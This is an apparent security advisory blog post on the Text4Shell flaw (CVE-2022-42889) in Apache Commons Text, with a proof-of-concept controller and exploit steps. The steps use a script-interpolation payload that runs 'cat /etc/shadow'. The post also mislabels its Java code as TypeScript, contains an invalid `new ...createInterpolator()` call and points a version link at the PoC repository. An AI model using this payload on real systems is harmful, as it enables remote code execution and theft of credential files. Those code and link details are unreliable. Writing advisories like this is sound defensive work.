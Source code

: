 ```yaml
---
title: "Text4Shell: A Vulnerability in Java library Apache Commons Text (CVE-2022-42889, Act4Shell)"
description: "LunaSec Security Researchers provide a detailed analysis of the vulnerability in Apache Commons Text library (CVE-2022-42889, aka Text4Shell or Act4Shell) and how it can be exploited to execute arbitrary code on the victim's machine."
slug: text4shell-java-rce-cve-2022-42889
date: 2022-10-19T23:30:00.000Z
keywords: [cybersecurity, strategy, java, action, guide, exploit]
tags: [security, appsec, devsecops, cicd, sdlc, guides]
authors: [free]
---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

<head>
  <meta property="article:modified_time" content="2022-10-20T01:35:00.000Z" />
</head>

<img alt="Text4Shell Logo" src="https://www.lunasec.io/docs/img/blog/text4shell_small.png" style={
  {marginLeft: 'auto', marginRight: 'auto', paddingLeft: '20px', paddingRight: '20px'}
}/>

## What is Text4Shell?

Text4Shell is a vulnerability in the Java library Apache Commons Text. This vulnerability, in specific conditions,
allows an attacker to execute arbitrary code on the victim's machine (Remote Code Execution or "RCE").
The vulnerability was discovered by [Alvaro Muñoz (aka pwntester)](https://twitter.com/pwntester) and
[announced publicly](https://lists.apache.org/thread/n2bd4vdsgkqh2tm14l1wyc3jyol7s1om) on October 13th

Text4Shell was officially assigned the [CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889) identifier.

<!--truncate-->

Note: While the vulnerability is also known as "Act4Shell", we'll be referring to it as "Text4Shell" in this article.

## Who is impacted?

Applications that use the Apache Commons Text library (or that depend on libraries using it) are impacted.

While the name Text4Shell may suggest that this issue is as widespread
[Log4Shell vulnerability](https://lunasec.io/docs/blog/log4shell-cve-2021-44228/), that is fortunately not the case.

Text4Shell is more similar to [Spring4Shell](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/) in that
the conditions for exploitation require a vulnerable pattern in application code in addition to a vulnerable version of
Apache Commons Text being present.

If only the vulnerable version of Apache Commons Text is present, but the vulnerable pattern doesn't also exist, the
Text4Shell cannot be exploited.

We'll go into more detail about that in the next section, but we believe that the real-world impact of Text4Shell to be
limited compared with Log4Shell.

### Should you patch?

While you're _most likely_ not vulnerable to Text4Shell, the devil is in the details, and we believe that you should
either upgrade to version 1.10+ or scan your code for usages of `StringSubstitor.createInterpolator()` or
`StringLookupFactory.INSTANCE.interpolatorStringLookup().lookup()` to verify that they can't accept arbitrary input.

Note: We're still investigating other attack paths like recursive resolutions. If you find any, please let us know!

If you'd like to check if you're vulnerable to Text4Shell (including if new bypasses are found), you can
[configure LunaTrace for free](https://lunatrace.lunasec.io/) to run in your CI and get alerted automatically.

For additional ways to detect Text4Shell, we'll be providing links to other resources at the bottom of this article too.

### Exploit Conditions

**All** the following conditions must be met for Text4Shell to be exploitable:

- Apache Commons Text version 1.5 through 1.9 are vulnerable
    ([version 1.10](https://commons.apache.org/proper/commons-text/changes-report.html#a1.10.0) includes a fix),
- The application must use `StringSubstitutor` in a vulnerable configuration (see POC code below),
- The application must accept arbitrary, attacker controlled input for exploitation to be possible,
- All versions of the JDK are vulnerable (early reports suggest JDK versions 15+ are safe, but new POCs have been
    released that work on JDK 15+).

### Proof-of-Concept Code

There are a few excellent resources available for this vulnerability already, including the original
[GitHub Advisory](https://securitylab.github.com/advisories/GHSL-2022-018_Apache_Commons_Text/) and a
[Docker POC on GitHub](https://github.com/karthikuj/cve-2022-42889-text4shell-docker), and this post will just be
consolidating the information in those resources together.

The following code snippet is a proof-of-concept that demonstrates how the vulnerability can be exploited.

```typescript
/**
* Example of how to exploit Text4Shell vulnerability (CVE-2022-42889).
* A simple Java web server application using the Spring framework based on:
* https://github.com/karthikuj/cve-2022-42889-text4shell-docker
*/

// Import the vulnerable class from Apache Commons Text
import org.apache.commons.text.StringSubstitutor;

import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestMethod;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RestController
@RequestMapping("text4shell")
public class ExampleVulnerableText4ShellController {

  @RequestMapping(value = "/vulnerable", method = RequestMethod.GET)
  @ResponseBody
  public String vulnerable(
    // The default value of this parameter is used to demonstrate the vulnerability
    @RequestParam(defaultValue="${script:javascript:java.lang.Runtime.getRuntime().exec('cat /etc/shadow')}")
    String requestInput
  ) {
    // This is the vulnerable method imported from Apache Commons Text.
    StringSubstitutor interpolator = new StringSubstitutor.createInterpolator();

    // This line triggers the exploit
    interpolator.replace(requestInput);

    // Does nothing
    return "foo";
  }
}
```

### Exploit Steps

The following steps demonstrate how the vulnerability can be exploited:

1. The attacker sends a request to the vulnerable endpoint with the following payload:
    `http://localhost:8080/vulnerable?requestInput=${script:javascript:java.lang.Runtime.getRuntime().exec('cat /etc/shadow')}`
2. The request parameter, `requestInput`, `${script:javascript:java.lang.Runtime.getRuntime().exec('cat /etc/shadow')}`, is passed to the
    `StringSubstitutor` class, which is vulnerable to the exploit.
3. The `StringSubstitutor.replace()` method executes the payload which runs `cat /etc/shadow` and returns the contents of the shadow file.
4. At this point, the attacker can execute any command they want here, not just `cat /etc/shadow`. This is just an example
    of how the exploit can be used to execute arbitrary code on the victim's machine.

## How to fix Text4Shell

The simplest fix is to upgrade to Apache Commons Text
[version 1.10](https://github.com/karthikuj/cve-2022-42889-text4shell-docker) or later.

If you're unable to upgrade, please
[join us on Slack](https://join.slack.com/t/lunaseccommunity/shared_invite/zt-178lvngk1-SHS6bMkQS71YWtCne2XWhA), where
we can help you find a workaround.

For help determining if you're affected by this vulnerability, or to determine if you're using Vendor software that may
be vulnerable, please see the resources below to help you scan for Text4Shell across your stack.

### Additional Resources

- [JFrog Text4Shell CLI Scanner](https://github.com/jfrog/text4shell-tools)
- [Grype](https://github.com/anchore/grype)
- [LunaTrace by LunaSec](https://lunatrace.lunasec.io/)

## Stay Informed

If you'd like to stay up to date on the latest vulnerabilities, you can join our mailing list below or follow us on
[Twitter](https://twitter.com/lunasecio).


<ContactForm/>

### Have Questions?

You're welcome to reach out to us if you need help by
[joining our Slack](https://join.slack.com/t/lunaseccommunity/shared_invite/zt-178lvngk1-SHS6bMkQS71YWtCne2XWhA) or by
[emailing us](mailto:contact+text4shell@lunasec.io). You can also
[edit this post on GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2022-10-19-text4shell-cve-2022-42889.mdx)
to suggest changes.

## References

First of all, we just want to say thank you to [Alvaro Muñoz (aka pwntester)](https://twitter.com/pwntester) and
the Apache Commons Text team for their work on resolving this security issue.

- [Apache Commons Text Security Advisory](https://commons.apache.org/proper/commons-text/security.html)
- [Rapid7 Writeup](https://www.rapid7.com/blog/post/2022/10/17/cve-2022-42889-keep-calm-and-stop-saying-4shell/?utm_campaign=sm-blog&utm_source=lunasec)
- [TheRecord Writeup](https://therecord.media/experts-downplay-reach-of-apache-bug-text4shell/)

### Updates

1. 2022-10-19 @ 4pm PDT: Initial post.
2. 2022-10-19 @ 4:30pm PDT: Fixed typos and added more resources.
3. 2022-10-19 @ 5pm PDT: Adding logo.
4. 2022-10-19 @ 6:35pm PDT: Updating text in Impacted section.
5. 2022-10-19 @ 9pm PDT: Fixed broken example code. Added clarifying section about what is required for exploitation.
